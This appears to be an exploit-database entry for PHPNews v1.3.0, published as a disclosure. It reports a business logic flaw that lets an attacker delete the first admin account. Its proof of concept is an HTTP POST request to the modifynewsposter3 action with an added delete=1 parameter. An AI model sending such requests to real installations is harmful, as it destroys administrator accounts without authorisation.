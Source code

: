 # Exploit Title: PHPNews v1.3.0 - Business Logic Error(BLE)
## Date: 1/4/2024
## Vendor Homepage: https://sourceforge.net/projects/newsphp/files/PHPNews%201._/PHPNews%201.3.0/phpnews_1-3-0.zip/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: PHPNews
## Version: v1.3.0
## Exploit Description:
## PHPNews v1.3.0 suffers from BLE - Business Logic Error Vulnerability allowing attackers to delete the first admin account

## -----------------------------------------------POC-------------------------------------------------------------------
```
POST /index.php?action=modifynewsposter3 HTTP/1.1
...

id=1&newusername=admin&username=admin&password=&password2=&email=admin%40test.com&avatar=&language=en_GB&access=admin&delete=1(ADD THIS)
```